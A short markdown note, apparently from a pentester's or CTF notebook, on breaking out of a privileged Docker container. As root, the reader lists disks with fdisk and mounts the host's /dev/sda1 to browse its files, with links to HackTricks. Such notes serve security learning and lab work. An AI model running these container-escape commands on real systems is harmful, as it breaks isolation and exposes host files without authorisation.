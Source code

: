 # Docker Breakout

## Mounting a disk

If you’re root user in a docker container, try running 

```bash
fdisk -l
```

You might find that you can mount

![Untitled](Docker%20Breakout%209f090348725b41f0a9ba704f60cb6949/Untitled.png)

If you’re able to mount the Linux OS like I can with `/dev/sda1`,  try this.

```bash
mkdir /mnt/own
mount /dev/sda1 /mnt/own
cd /mnt/own
```

The expected output is shown

![Untitled](Docker%20Breakout%209f090348725b41f0a9ba704f60cb6949/Untitled%201.png)

You’re now in the files of the system.

![Untitled](Docker%20Breakout%209f090348725b41f0a9ba704f60cb6949/Untitled%202.png)

This can be found in hacktricks

[Docker Breakout / Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privileged)

**************************************************************************Note: hacktricks has at least 2 docker pages (one [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privileged) and the other [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout)) that have different information on breakout. Go to [this one](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privileged) if you’re trying to escalate your privileges.*